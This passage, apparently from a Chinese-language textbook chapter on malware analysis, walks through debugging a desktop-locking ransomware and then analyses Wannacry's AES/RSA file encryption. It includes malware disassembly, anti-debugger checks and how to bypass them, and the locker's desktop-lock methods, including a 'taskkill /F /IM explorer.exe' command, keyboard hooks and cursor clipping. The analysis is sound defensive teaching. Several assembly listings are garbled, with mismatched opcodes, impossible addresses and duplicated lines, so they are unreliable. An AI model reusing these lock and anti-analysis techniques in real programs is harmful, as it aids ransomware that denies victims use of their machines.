这里发生了几件事。首先，在地址中找不到另一个 CALL EAX 指令，因此我们可能已接近解码阶段的结束。实际上，如果我们在 0x0021FD44 处单步执行该调用（按下 F8），恶意软件将自行终止。因此，让我们单步进入该调用。为了简洁起见，我们将采用捷径。最终，恶意软件将跳转回偏移处 0x0041FB50 的资源部分，那里等待着新的已解码指令。因此，让我们通过在该地址上设置执行硬件断点快速跳转过去；我们可以在调试器的命令框中执行指令 dd 0x41fb50，然后右键单击第一个字节（在左下窗格中，即内存窗口），并选择“断点 | 硬件，执行时”，如所示。


现在，当我们按下 F9 运行恶意软件时，我们成功命中了硬件断点。以下是我们偏移处的第一批指令；正如预期的那样，我们可以看到一组新的已解码指令，准备执行：

```
0041FB50       60      PUSHAD
0041FB51      BE 00414100    MOV ESI,locker.00414000
0041FB56      8DBE 00D0FEFF  LEA EDI,DWORD PTR DS:[ESI+FFFFD000]
0041FB5C      57      PUSH EDI
0041FB5D      EB 0B      JMP SHORT locker.0041FB6A
0041FB5F      90      NOP
```

常见的 PUSHAD 指令用于保存 CPU 寄存器的当前值。这通常用于在内存中解码数据之前，情况正是如此，因为恶意软件的“.text”节已被清零，并将填充下一批指令。这清楚地告诉我们，恶意软件正在内存中使用真正的恶意指令集对自身进行解码。我们可以通过在调试器命令框中输入命令 dd 0x401000 来打印当前内容：

```
00401000 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 .......00401010 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 .......00401020 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 .......00401030 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 .......00401040 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 .......
```

通过单步进入下一条指令，我们看到整个文本节已加载真正的恶意指令。如果继续单步进入代码，我们会看到进程正在被枚举。因此，让我们再次在调试器命令框中为适当的 API 设置断点：

```
bp CreateToolhelp32Snapshot
```

按下 F9，当命中断点时，按下 ALT-F9 返回到地址 0x0040DE6B 处的恶意软件代码。在那里，我们看到指令未被调试器正确反汇编，如所示：


让我们通过右键单击左上角窗口中的任意指令并选择“分析 | 从模块中移除分析”选项，使调试器正确显示这些指令，如所示：


执行此步骤后，我们看到显示了正确的汇编代码。以下是一些重要地址，它们提供了进程正在被枚举的证据：

```
0040DE65    CALL DWORD PTR DS:[413A34]    ; kernel32.CreateToolhelp32Snapshot
0040DE85    CALL DWORD PTR DS:[413A4C]    ; kernel32.Process32First
0040DEA5    CALL DWORD PTR DS:[413A50]    ; kernel32.Process32Next
```

## 反调试检查

如前几步所示，勒索软件的第一种反调试技术是将自身复制到其他位置，以便如果设置了 int3 (0xCC)，它将被带到下一个内存空间并通过更改操作码来破坏代码。让我们看看恶意软件将使用哪些其他反调试技术。

让我们移除所有断点 (ALT-B)。然后，在左上角的反汇编窗口中，按下 CTRL-G，转到地址 0x0040E185，在那里设置断点，并按下 F9。此时，恶意软件将通过枚举所有进程及其相关模块来检查受感染系统中是否运行着知名调试器，试图查找名为 OLLYDBG、DBG、DEBUG、IDAG 或 W32DSM 的进程或模块，如所示。

```
0040E170 8E 16FEFFFF CALL locker.0040F098
0040E182 8B55 FB MOV EDX,DWORD PTR SS:[EBP-8]
0040E185 BB 80E54000 MOV EBX,locker.0040E580
0040E18A 8E 59FFFEFF CALL locker.00405E88
0040E18F 85C0 TEST EAX,EAX
0040E191 74 08 JE SHORT locker.0040E196
0040E193 C886 01 MOV BYTE PTR DS:[ESI],1
0040E196 8D45 EC LEA EAX,DWORD PTR SS:[EBP-14]
0040E199 8057 24 LEA EDX,DWORD PTR DS:[EDI+24]
0040E199 B9 04001000 MOV ECX,104
0040E1A1 8E 75FF7FFF CALL locker.00403924
0040E1A6 8BA5 EC MOV EAX,DWORD PTR SS:[EBP-14]
0040E1A9 8055 F0 LEA EAX,DWORD PTR SS:[EBP-10]
0040E1AC 8E 7FFDFFFF CALL locker.0040F0F8
0040E1B1 8B55 FB MOV EDX,DWORD PTR SS:[EBP-10]
0040E1B4 BB 80E54000 MOV EBX,locker.0040E580
0040E1B9 8E 2A5FFFFF CALL locker.00403924
0040E1BE 85C0 TEST EAX,EAX
0040E1C0 74 08 JE SHORT locker.0040E1C5
0040E1C2 C886 01 MOV BYTE PTR DS:[ESI],1
0040E1C5 8D45 24 LEA EAX,DWORD PTR SS:[EBP+24]
0040E1C8 B9 04001000 MOV ECX,104
0040E1CD 8B 4F57FFFF CALL locker.00403924
0040E1D5 8B45 F4 MOV EAX,DWORD PTR SS:[EBP-1C]
0040E1D8 8D55 EC LEA EDX,DWORD PTR SS:[EBP-14]
0040E1DB 8E 8FFDFFFF CALL locker.0040F098
0040E1E3 8B55 FB MOV EDX,DWORD PTR SS:[EBP-10]
0040E1E6 BB 80E54000 MOV EBX,locker.0040E580
0040E1ED 8E 59FFFEFF CALL locker.004038EC
0040E1F2 85C0 TEST EAX,EAX
0040E1F4 74 08 JE SHORT locker.0040E1F4
0040E1F6 C886 01 MOV BYTE PTR DS:[ESI],1
0040E1F9 8D45 DC LEA EAX,DWORD PTR SS:[EBP-24]
0040E1FF B9 04001000 MOV ECX,104
0040E204 8E 2A5FFFFF CALL locker.00403924
0040E20C 8B45 DC MOV EAX,DWORD PTR SS:[EBP-24]
0040E20F 8D55 E8 LEA EAX,DWORD PTR SS:[EBP-18]
0040E212 B9 04001000 CALL locker.0040F0F8
0040E217 BB 80E54000 MOV EBX,locker.0040E580
0040E21C 8E C55FFFFF CALL locker.004038EC
0040E221 85C0 TEST EAX,EAX
0040E223 74 08 JE SHORT locker.0040E223
0040E225 C886 01 MOV BYTE PTR DS:[ESI],1
0040E228 8D45 24 LEA EAX,DWORD PTR SS:[EBP+24]
0040E22B B9 04001000 MOV ECX,104
0040E230 8E 1165FFFF CALL locker.00403924
0040E236 8B45 D4 MOV EAX,DWORD PTR SS:[EBP-2C]
0040E239 8D55 D8 LEA EDX,DWORD PTR SS:[EBP-28]
0040E23C BB 80E54000 MOV EBX,locker.0040F098
0040E243 8E D9FFFEFF CALL locker.0040E05C
0040E246 BB 80E54000 MOV EBX,locker.0040E580
0040E24B 85C0 TEST EAX,EAX
0040E24D 74 08 JE SHORT locker.0040E252
```

由于我们使用的是 Immunity Debugger，不会被此检查捕获，但即使我们使用 OllyDbg，也可以在运行前更改可执行文件的名称，或在内存中修补二进制文件以强制恶意软件继续运行。

然后，如果我们继续“单步进入”，恶意软件将尝试根据系统中 c:\windows\system32\drivers 内安装的驱动程序的常见名称来查找调试器，例如 sice.sys 和 ntice.sys（与 SoftICE 相关）以及 syser.sys（与 Syser 内核调试器相关）等。此外，还存在针对旧虚拟驱动程序（带 .vxd 扩展名）以及加载路径为 \\.\SICE、\\.\TRW、\\.\SYSER 等的服务的检查。以下是这种反调试检查的示例。


```
0040E32A BA 5CE54900 MOV EDX, locker.0040E59C
0040E32F E8 245EFFFFF CALL locker.00404158
0040E334 8845 C8 MOV [EBP-0C], AL
0040E337 E8 ECFFFFF CALL locker.0040B328
0040E33C 8400 TEST AL, AL
0040E33E 74 03 JE SHORT locker.0040E343
0040E340 C506 01 MOV BYTE PTR DS:[ESI], 1
0040E343 8D45 BC LEA EAX, DWORD PTR SS:[EBP-44]
0040E346 E8 5FFFFF CALL locker.00404734
0040E34B 8D45 BC LEA EAX, DWORD PTR SS:[EBP-44]
0040E34E BA 8EE54900 MOV EDX, locker.0040E588 ASCII "drivers\\ntio.sys"
0040E353 E8 A2060000 MOV EAX, locker.0040A9FA
0040E358 BAC4CFFFFF MOV ECX, -3C
0040E35D E8 88D40800 CALL locker.0040B5EA
0040E362 8400 TEST AL, AL
0040E364 74 03 JE SHORT locker.0040E367
0040E366 C506 01 MOV BYTE PTR DS:[ESI], 1
0040E369 8D45 BC LEA EAX, DWORD PTR SS:[EBP-48]
0040E36C E8 E7FEFFFF CALL locker.00404734
0040E371 8D45 BC LEA EAX, DWORD PTR SS:[EBP-48]
0040E374 BA 04E54900 MOV EDX, locker.0040E504 ASCII "drivers\\syser.sys"
0040E377 E8 60410000 MOV EAX, locker.004124DC
0040E37C BAC4CFFFFF MOV ECX, -3C
0040E381 E8 06D40800 CALL locker.0040B588
0040E386 8400 TEST AL, AL
0040E388 74 03 JE SHORT locker.0040E38B
0040E38A C506 01 MOV BYTE PTR DS:[ESI], 1
0040E38D 8D45 BC LEA EAX, DWORD PTR SS:[EBP-4C]
0040E390 E8 62FEFFFF CALL locker.00404734
0040E395 8D45 BC LEA EAX, DWORD PTR SS:[EBP-4C]
0040E398 BA 04E54900 MOV EDX, locker.0040E50F ASCII "drivers\\winice.sys"
0040E39D E8 E6FEFFFF CALL locker.00402288
0040E3A2 BAC4CFFFFF MOV ECX, -3C
0040E3A7 E8 84E20800 CALL locker.00402630
0040E3AC 8400 TEST AL, AL
0040E3AE 74 03 JE SHORT locker.0040E3AF
0040E3B0 C506 01 MOV BYTE PTR DS:[ESI], 1
0040E3B3 BA 8000 MOV EDX, 80
0040E3B8 E8 E9FEFFFF CALL locker.00404E3AF
0040E3BD 8D45 BC LEA EAX, DWORD PTR SS:[EBP-50]
0040E3C0 E8 75FEFFFF CALL locker.00404734
0040E3C5 BA C4E54900 MOV EDX, locker.0040E5C0 ASCII "drivers\\sice.vxd"
0040E3CA E8 85FEFFFF CALL locker.00402A58
0040E3CF BA C4CFFFFF MOV ECX, -3C
0040E3D4 E8 84D00800 CALL locker.0040B45D
0040E3D9 8400 TEST AL, AL
0040E3DB 74 03 JE SHORT locker.0040E3DE
0040E3DD C506 01 MOV BYTE PTR DS:[ESI], 1
0040E3E0 BA 4D0C MOV BYTE PTR DS:[ESI], 1
0040E3E3 BA 68E54900 MOV EDX, locker.0040E503 ASCII "drivers\\winice.vxd"
0040E3E8 E8 93FEFFFF CALL locker.00404414
0040E3ED BA C4CFFFFF MOV ECX, -3C
0040E3F2 E8 63CF0800 CALL locker.0040A358
0040E3F7 8400 TEST AL, AL
0040E3F9 74 03 JE SHORT locker.0040E3FC
0040E3FB C506 01 MOV BYTE PTR DS:[ESI], 1
0040E3FE BA 46E44900 MOV EDX, locker.0040E4764 ASCII "winice.vxd"
0040E403 E8 52FEFFFF CALL locker.00402A5A
0040E408 BA C4CFFFFF MOV ECX, -3C
0040E40D E8 84FE0800 CALL locker.0040A296 ASCII "vmm2\\winice.vxd"
0040E412 8400 TEST AL, AL
0040E414 74 03 JE SHORT locker.0040E41B
0040E416 C506 01 MOV BYTE PTR DS:[ESI], 1
0040E419 BA 46E44900 MOV BYTE PTR DS:[ESI], 1
0040E41E BA 8000 MOV EDX, 80
0040E423 E8 A2FCFFFF CALL locker.0040A50E
0040E428 BA 85E64900 MOV EDX, locker.0040E586 ASCII "sioc.vxd"
0040E42D E8 88D40800 CALL locker.0040A296
0040E432 BA C4CFFFFF MOV ECX, -3C
0040E437 E8 48D00800 CALL locker.0040B328
0040E43C 8400 TEST AL, AL
0040E43E 74 03 JE SHORT locker.0040E43F
0040E440 C506 01 MOV BYTE PTR DS:[ESI], 1
0040E443 BA DDF44900 MOV EDX, locker.0040F4DD ASCII "sioc.vxd"
0040E448 E8 02000000 CALL locker.0040E44F
0040E44D 8D45 BC LEA EAX, DWORD PTR SS:[EBP-74]
0040E450 BA 46E44900 MOV EDX, locker.0040E4764
0040E455 E8 455FFFFF CALL locker.0040A3958
```

接下来，我们将发现另一个反调试检查：

```
0040E487 CALL locker.0040DF2C ; JMP to kernel32.IsDebuggerPresent
```

这是一种非常古老且容易绕过的技术，用于检查恶意软件是否正在被调试。调用后，如果 EAX = 0，则未找到调试器。

在所有检测调试器的检查结束时，如果存在调试器，ESI 的内容将为 1，否则为 0；该值保存在 BL 寄存器中：

```
0040E50A MOV BL,BYTE PTR DS:[ESI]
```

我们可以通过修补前面的指令（在调试器中双击指令即可修改它）来轻松地让恶意软件误以为没有调试器，例如：

```
0040E50A MOV BL, 0
```

不幸的是，我们无法永久修补二进制文件，因为这些指令在运行时被解码，因此磁盘上的文件与之不同。不过，我们可以在修补后立即创建 VM 快照，以便在分析过程中始终从该点开始调试。

最终，BL 的新值将被复制到 AL。可以在 0x410C52 处看到，我们能够绕过调试器检查（如果 AL = 1，程序将终止；否则，它将跳转到 0x00410C60）：

```
00410C52 CMP AL, 1
00410C54 JNZ SHORT locker.00410C60
```

## 掌控桌面

此时，所有检查均已完成，恶意软件准备好开始采取措施来控制桌面：

```
00410C79 MOV EDX,locker.00410DD0; ASCII "qwjdzlbPyUtravVxKLIfZsp3B9Y4oTAGWJ8"②
00410CA1 ...
00410CA3 CALL locker.00405194 ; JMP to USER32.FindWindowA
00410CA8 MOV EBX,EAX
00410CAA PUSH 0 ; SW_HIDE
00410CAC PUSH EBX
00410CAD CALL locker.00404F5C ; JMP to USER32.ShowWindow
00410CB2 PUSH 80
00410CB7 PUSH -14
00410CB9 PUSH EBX
.
.
.
00410CC7 PUSH 0
00410CC9 PUSH locker.00410DF4 ; ASCII "taskkill /F /IM explorer.exe"③
00410CCE CALL locker.00404D14 ; JMP to kernel32.WinExec
00410CD3 ...
00410CED CALL locker.0040520C ; JMP to USER32.SetWindowsHookExA④
```

带有唯一窗口名称（窗口标题）② 的恶意窗口已被创建。窗口将在 0x00410CA3 处被找到，并在 0x00410CAD 处从桌面隐藏。这发生在几毫秒内，因此最终用户甚至不会注意到。随后，将发生两项非常重要的任务：explorer.exe 进程将被终止，因此（除其他外）任务栏将被移除且最终用户无法访问 ③。然后，键盘将被拦截 ④，以便在恶意窗口激活后受害者无法使用它。我们通过单步进入调用并检查堆栈中的 HookType 参数（其值为 2，即 WH_KEYBOARD）来知道键盘正在被钩住：

| 地址 | 值 | 说明 |
|------|-----|------|
| 0012F964 | 00000002 | HookType |
| 0012F968 | 00410078 | Hookproc = locker.00410078 |
| 0012F96C | 00400000 | hModule = 00400000 (locker) |
| 0012F970 | 00000000 | ThreadID = 0 |


注意：恶意软件会执行许多其他操作。我们只是列出较为相关的操作，以保持章节长度合理。

接下来，我们发现一个循环，其唯一目的是查找并最小化桌面上的所有窗口：

```
00410D47 PUSH 0FF
00410D4C LEA EAX,DWORD PTR SS:[ESP+4]
00410D50 PUSH EAX
00410D51 PUSH EBX
00410D52 CALL locker.004051BC ; JMP to USER32.GetWindowTextA
00410D57 PUSH ESP
00410D58 PUSH 0
00410D5A CALL locker.00405194 ; JMP to USER32.FindWindowA
00410D5F MOV ESI,EAX
00410D61 PUSH ESI
00410D62 CALL locker.00404EEC ; JMP to USER32.IsWindowVisible
00410D67 TEST EAX,EAX
00410D69 JE SHORT locker.00410D7D
00410D6B PUSH 0
00410D6D PUSH 0F020
00410D72 PUSH 112
00410D77 PUSH ESI
00410D78 CALL locker.004051EC ; JMP to USER32.PostMessageA
00410D7D PUSH 2
00410D7F PUSH EBX
00410D80 CALL locker.00404EB4 ; JMP to USER32.GetWindow
00410D85 MOV EBX,EAX
00410D87 TEST EBX,EBX
00410D89 JNZ SHORT locker.00410D47
```

此检查不言而喻。它通过 GetWindowTextA 获取当前显示窗口的标题并查找该窗口。如果窗口可见，则通过带有以下参数的 PostMessage 将其最小化：

| 地址 | 参数 | 值 |
|------|-----|------|
| 0012F964 | hWnd | 180174 |
| 0012F968 | Message | WM_SYSCOMMAND |
| 0012F96C | Type | SC_MINIMIZE |

循环的最后一步是调用 GetWindow 以获取当前显示的下一个可用窗口。此循环将持续执行，直到不再找到最大化的窗口。

一旦所有窗口都被最小化，循环就会通过再次调用 FindWindowA 来识别恶意窗口，并通过 PostMessageA 调用将其恢复：

```
00410DAC CALL locker.004051EC ; JMP to USER32.PostMessageA
```

对于此调用，使用了以下参数：

| 地址 | 参数 | 值 |
|------|-----|------|
| 0012F964 | hWnd | 50528 |
| 0012F968 | Message | WM_SYSCOMMAND |
| 0012F96C | Type | SC_RESTORE |

再次跳转到另一组指令，因此我们单步进入（F7）以下调用以跟踪它：

```
00410DB9 CALL locker.00407DB0
```

恶意窗口的内容开始被添加：

```
00407DCD CALL locker.004051FC ; JMP to USER32.SendMessageA
```

堆栈中出现了以下参数：

| 地址 | 参数 | 值 |
|------|-----|------|
| 0012F95C | hWnd | 30522 |
| 0012F960 | Message | WM_SETTEXT |
| 0012F964 | wParam | 0 |
| 0012F968 | Text | "ÿäëÿ÷óÿ 1aò6oaíeàí ëëôàíçë111îàì ñîâëàöàíëÿ ì ïëëëë6aòàööè Ïî ÉÒÑîÍôaööè Microsoft." |

让我们在 SetWindowPos 处设置断点并按 F9 前往该处。然后，按 ALT-F9 返回到恶意软件程序。我们应该看到显示一个弹出式勒索软件窗口。此 API 使用 HWND_TOPMOST 选项调用，这基本上意味着系统中显示的任何窗口都将始终位于此窗口之后：

| 地址 | 值 |
|------|-----|
| 0012F920 | 来自 locker.00411603 对 SetWindowPos 的调用 |
| 0012F928 | InsertAfter = HWND_TOPMOST |

我们可以看到 Ransomlock 窗口已显示！然而，锁定过程尚未完成。多亏了调试器，恶意软件在我们的控制之下，如所示。


因为鼠标和键盘未被阻止，我们可以与桌面交互并调出其他窗口。然而，因为恶意窗口被设置为位于任何其他窗口之上，即使我们最大化其他窗口，它们也会留在其后面。这样做是为了让受感染的用户只能与勒索软件窗口交互。在我们的环境中，我们只需最大化 IE 和计算器，但如预期，它们都显示在窗口后面，如图所示。


我们可以通过菜单中的“视图 | 窗口”选项检查与此进程关联的所有窗口。在这里，我们可以确认恶意窗口已设置为最顶层。我们还可以在 ClsProc 列中看到，最顶层窗口的过程地址为 0x00405428，如图所示。我们可以在那里设置断点，以捕获与该窗口相关的每个操作。


尤其是在处理勒索软件时，强烈建议您使用 Microsoft Visual Studio 中的 Spy++ 等工具，以便在分析期间能够识别系统中的所有隐藏窗口及其属性。

恶意窗口通过 0x00411005 处的 RegisterHotKey API 定义了热键 ALT-TAB。这样一来，一旦桌面被锁定，如果用户尝试切换到其他窗口，操作将被拒绝：

```
00411005 CALL locker.00404F1C ; JMP to USER32.RegisterHotKey
```

堆栈参数如下：

```
0012F904 hWnd = 00130540 ('qwjdzlbPyUtravVxKLIfZsp3B9Y4o...',class='obj_Form')
0012F908 HotKeyID = 1
0012F90C Modifiers = MOD_ALT
0012F910 Key = VK_TAB
```

在后面的一些指令中，我们发现对 ClipCursor API 的调用：

```
00411043 CALL locker.00404E1C ; JMP to USER32.ClipCursor
```

堆栈参数如下：

```
0012F910 pRect = 0012F924 {639.,588.,1289.,622.}
```

此 API 会将光标或鼠标限制在恶意窗口的矩形区域内；因此，将坐标作为参数传递。

在此调用之后，受害者将被迫仅通过鼠标与勒索软件窗口交互！如果我们尝试点击屏幕的其他区域，将无法做到。此时，您的桌面应该已经被锁定，但由于恶意软件尚未完成，还需要更多步骤才能完全控制它。让我们在 SetFocus 上设置断点（通过命令行 bp SetFocus）。按 F9，按 ALT-F9，游戏结束。

在内部，恶意软件会运行一个无限循环，以确保桌面上的所有窗口都被最小化。我们可以通过按 CTRL-ALT-DEL 然后按 ALT-T 来调出任务管理器窗口，从而确认此行为。一旦显示，它就会被勒索软件最小化。

有趣的是，如果我们尝试在文本框中输入一个假号码，然后单击“确定”发送付款来捕获到 C2 的网络流量，恶意软件将不会执行任何操作。然而，尽管这使恶意软件看起来不活跃，不幸的是，它并不能阻止我们的计算机被控制。

恶意软件还执行了其他试图控制桌面的任务；其中一些任务未成功，因为它们是相当过时的技术。我们只关注了最重要的任务，以帮助我们了解其内部工作原理。

恶意软件使用过时但仍然有用的技术来控制桌面（有关示例，请参阅“进一步阅读”部分）。我们了解到，勒索软件用于控制桌面的核心技术与窗口系统相关。以下是用于控制桌面的最重要步骤：

- 1. 在无限循环中最小化所有窗口。一旦有新窗口被最大化，它会立即被最小化。
- 2. 钩住键盘，使其无法被受害者使用。
- 3. 设置特定的热键（如 ALT-TAB），以防止受害者切换到其他窗口。
- 4. 将恶意窗口设置为最顶层，因此任何可能弹出的其他窗口始终会位于其后面。
- 5. 将鼠标的使用限制在恶意窗口所在的区域。

虽然被恶意软件锁定桌面的后果令人不安，但大多数情况下，此类恶意软件是作为独立程序存在，从文件系统中的特定位置执行。因此，禁用它相当容易：只需使用实时 CD 启动计算机，如果您使用的是 Linux 发行版，则挂载 Windows 硬盘，并在受感染用户的帐户下查找可执行文件。以下是您应该检查的常见路径：

```
c:\Users\<user>\AppData
c:\Users\<user>\Local Settings
c:\Users\<user>\Application Data
```

或者，您可以在安全模式下启动并转到“运行”注册表项，在那里您可能会找到可执行文件名（尽管注册表中的多个位置用于在重启后启动恶意软件）：

```
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

## Wannacry

Wannacry 是一种臭名昭著的勒索软件蠕虫，出现于 2017 年 5 月，并迅速登上世界各地的头条新闻。它被标记为蠕虫，是因为它利用了服务器消息块（SMB）协议中的 CVE-2017-0144 漏洞（名为 ETERNALBLUE）来感染互联网上易受攻击的 Windows 主机。ETERNALBLUE 漏洞之所以出名，是因为它作为影子经纪人（Shadow Brokers）黑客组织信息泄露的一部分被披露。该组织向公众发布了多个由美国国家安全局（NSA）开发和使用的漏洞利用工具，其中之一就是 ETERNALBLUE。

Wannacry 属于加密勒索软件家族，因为它会加密受害者的数据并将其作为赎金扣押。在本节中，我们将探讨分析 Wannacry 勒索软件的不同方法，并尝试回答以下问题：

- 文件是如何加密的，使用了哪些加密算法？
- 有可能解密被赎回的文件吗？

### 示例 19-3：分析 Wannacry 勒索软件

识别和了解勒索软件使用的加密方案，对受影响的受害者来说是最重要的信息之一。此信息可以帮助揭示文件加密或密钥管理实现中的任何漏洞，从而可能导致恢复被赎回的文件。另一方面，确认勒索软件使用的加密方案是安全的，可以让受害者优先安排他们的工作并进行修复。

勒索软件使用的加密算法主要有两大类：

- 对称密钥算法 这些算法对加密和解密使用相同的密钥。它们在加密/解密数据方面通常比非对称算法快得多，但通常要求勒索软件在受感染的计算机上“泄露”解密密钥，因为同一密钥用于加密数据。
- 非对称密钥算法 这些算法将密钥分为公钥和私钥两部分。公钥可以随恶意软件一起分发，仅用于加密数据。要解密数据，需要密钥的私钥部分，由恶意软件作者管理并以赎金出售给受害者。非对称算法主要用于安全交换对称密钥，从而允许更快的加密/解密。

设计安全的加密系统是一项复杂的工作；要真正安全，系统需要精心设计，该设计依赖于各种相互关联的组件，例如算法、密钥参数、密钥处理和安全意识的实现。

由于实现加密算法是一项相当复杂且安全敏感的工作，大多数开发者决定使用操作系统加密 API，或者静态或动态导入第三方加密库。检查导入的函数是识别恶意软件是否使用原生加密 API 的最简单方法。

对于静态链接的库，识别加密算法使用情况最古老、最简单的方法之一是使用算法所依赖的各种常量的静态签名。早期利用这些常量进行检测的工具之一是 KANAL – Crypto Analyzer，这是 PEiD 签名扫描器的插件。如今，大多数工具依赖 YARA 格式进行静态签名，或允许用户使用第三方插件利用签名。一些支持 YARA 的常见逆向工程工具包括 IDA、x64dbg、Binary Ninja 和 Radare2。


**注意** 将在本节中分析的 t.wnry Wannacry 组件的 MD5 哈希值为 F351E1FCCA0C4EA05FC44D15A17F8B36。

要开始识别加密算法，我们将在 IDA 中打开 t.wnry 组件并检查 PE 文件的导入部分。通过对导入的

按名称分类函数，我们按函数提供的功能来组织函数，这使我们能够识别出几个加密 API：

- CryptExportKey 此函数以安全方式从加密服务提供程序（CSP）导出加密密钥或密钥对。
- CryptReleaseContext 此函数释放 CSP 和密钥容器的句柄。
- CryptGenRandom 此函数用加密随机字节填充缓冲区。
- CryptGetKeyParam 此函数检索控制密钥操作的数据。

导入的函数让我们一窥加密功能，但不会揭示我们所处理的算法的任何细节。不过，它们确实为分析人员找到负责所需功能（在此情况下为加密）的函数提供了捷径。


NOTE 这种分析方法被称为自底向上方法。它通过利用可用线索高效地引导分析工作，保持对回答特定问题的关注。这种方法在处理极其庞大和复杂的二进制文件时尤其有用。

作为第二步初步加密识别，将使用 findcrypt-yara IDA 插件。该插件附带各种开源 YARA 规则，可以检测导入的或动态解析的加密函数以及与加密算法关联的不同加密常数。包含的 YARA 签名缺少一些常见的加密 API 函数，因此在对分析样本运行这些签名之前，我们将添加以下 YARA 规则：

```
rule Advapi_Crypto_API {
  meta:
    description = "Identify Crypto API functions."
  strings:
    $ = "CryptGenKey"
    $ = "CryptDecrypt"
    $ = "CryptEncrypt"
    $ = "CryptDestroyKey"
    $ = "CryptImportKey"
    $ = "CryptAcquireContextA"
  condition:
    any of them
}
```

在分析文件上运行 FindCrypt 插件报告了九个签名匹配——三个 Rijndael_AES 和六个 Crypt* API——这些在我们先前分析的 Imports 部分中不存在。通过查看识别出的常数，我们可以安全地假设勒索软件正在使用 AES 加密以及可能的其他算法。识别 CryptAcquireContextA 中使用的 CSP 将缩小可用算法的范围，因此我们将从查找此处 CryptAcquireContextA 字符串地址的交叉引用（XREFs）开始：

```
.data:1000D1F8 aCryptacquireco db 'CryptAcquireContextA', 0
```

该字符串仅在一个位置使用，而该函数负责动态解析加密函数。在注释变量名和类型后，代码在 Hex-Rays 反编译器中如下所示：

```
BOOL ResolveCryptAPIs()
{
    BOOL result;
    HMODULE rLoadLibrary;
    HMODULE v2;
    BOOL ( __stdcall *CryptGenKey_)(HCRYPTPROV, ALG_ID, DWORD, HCRYPTKEY *);
    if ( CryptAcquireContextA )
        return 1;
    rLoadLibrary = LoadLibraryA(LibFileName);
    v2 = rLoadLibrary;
    result = 0;
    if ( rLoadLibrary )
    {
        CryptAcquireContextA = GetProcAddress(rLoadLibrary, aCryptacquireco);
        CryptImportKey = GetProcAddress(v2, aCryptimportkey);
        CryptDestroyKey = GetProcAddress(v2, aCryptdestroyke);
        CryptEncrypt = GetProcAddress(v2, aCryptencrypt);
        CryptDecrypt = GetProcAddress(v2, aCryptdecrypt);
        CryptGenKey_ = GetProcAddress(v2, aCryptgenkey);
        CryptGenKey = CryptGenKey_;
        if ( CryptAcquireContextA )
        {
            if ( CryptImportKey && CryptDestroyKey && CryptEncrypt &&
                CryptDecrypt && CryptGenKey_ )
                result = 1;
        }
    }
    return result;
}
```


NOTE 在恶意软件中，使用 LoadLibrary 和 GetProcAddress 动态解析 API 函数是常见情况。它允许作者隐藏依赖导入表的静态分析工具无法检测到的功能。这种方法的另一种改进是混淆或加密 API 函数字符串，这进一步阻止静态签名和对可执行功能的推理。在分析恶意软件时，请确保检查代码中的 LoadLibrary 和 GetProcAddress API 引用，并确定它们是否正在解析其他 API。

在 IDA 中处理动态解析的 API 时，您可以将变量命名为解析的函数，IDA 将自动应用相应的 API 原型。

以下是命名变量 CryptAcquireContextA 的示例：

```
.data:1000D93C ; BOOL __stdcall CryptAcquireContextA(
 HCRYPTPROV *phProv, LPCSTR pszContainer, LPCSTR pszProvider,
 DWORD dwProvType, DWORD dwFlags)
.data:1000D93C CryptAcquireContextA dd 0
```

尽管此原型看起来可能正确，但它不会让 IDA 在反汇编中传播参数名，并会导致反编译器表示有些混乱。
这里的问题是 IDA 自动分配给变量的类型是函数声明而不是函数指针。要修复变量类型，请记住将其更改为函数指针，方法是用花括号括住函数名并在名前加上指针（*），如下所示：

```
(*CryptAcquireContextA)
```

要识别 CSP，我们将继续查看 CryptAcquireContextA 的交叉引用，并分析位于 .text:10003A80 的函数。在注释函数指针后，我们可以轻松识别参数名并找到 pszProvider 参数的值：

```
.text:10003A92      push 18h              ; dwProvType

.text:10003A94      ; "Microsoft Enhanced RSA and AES Cryptographic Provider"
.text:10003A94      and eax, offset aMicrosoftEnhan
.text:10003A99      push eax              ; pszProvider
.text:10003A9A      push 0                ; pszContainer
.text:10003A9C      push edi              ; phProv
.text:10003A9D      call CryptAcquireContextA
```

恶意软件使用的 CSP 支持 AES 和 RSA 算法。我们已经在样本中识别了 AES 常数，因此这只是另一种确认，表明该算法以某种形式被使用，无论是用于加密、解密还是两者兼用。RSA 的使用尚未得到确认，因此下一步是了解如何使用此加密提供程序。我们将继续分析当前函数的 XREFs，并查看 sub_10003AC0。由于该函数可能包含加密相关逻辑，我们需要了解代码及其所有周围函数。

在需要深入理解函数的此类情况下，自顶向下方法最有意义。在此情况下，所有函数都是围绕 API 的非常简单的包装器，因此我们不会深入细节。接下来显示的是从 sub_10003AC0（已重命名为 InitializeKeys）调用的函数的 IDA 邻近视图。


NOTE IDA 邻近浏览器提供了一种方便的方式来探索调用图并更好地了解相关函数。在自顶向下分析过程中对周围函数命名后，邻近视图最有用。

InitializeKeys 函数揭示了加密设置的几个重要属性：

- 恶意软件自带一个硬编码的 2048 位 RSA 公钥。
- 样本生成一个新的 2048 位 RSA 公钥/私钥对。
- 公钥以未加密形式保存到文件系统，文件名为 00000000.pky。
- 私钥使用硬编码的公钥 RSA 进行加密保存，文件名为 00000000.eky。
- 使用 CryptDestroyKey API 从内存中销毁密钥。

生成的私钥使用硬编码公钥加密并在使用后被销毁，这一事实暗示生成密钥对的公共部分被用来加密某些重要内容。由于私钥使用作者的公钥加密，只有作者可以访问加密的密钥，从而拥有解密使用生成的公钥加密的所有内容的独家能力。由于生成的公钥被用来加密某些重要内容，下一步是确定那究竟是什么。

为了查找用于加密数据的密钥的代码位置，我们将再次利用 XREFs 来识别使用 CryptEncrypt API 的位置。总共有五个引用，其中三个我们在调查 InitializeKeys 时已经分析过。因此，我们将查看 sub_10004370。

该函数非常简单；它使用 CryptGenRandom API 生成一个随机的 16 字节缓冲区，并使用生成的 RSA 公钥加密该缓冲区。未加密和加密的缓冲区都将返回到调用函数。通过跟踪


在调用函数中同时使用两个缓冲区，我们可以注意到以下差异：

- 加密缓冲区作为头部的一部分被写入文件。
- 未加密缓冲区被用作 AES 密钥来加密被勒索文件的内容。

现在我们已经收集了所有部分，以下是 Wannacry 如何利用 AES 和 RSA
来加密文件：

- 1. 每个受感染机器生成一个新的 2048 位 RSA 密钥对。
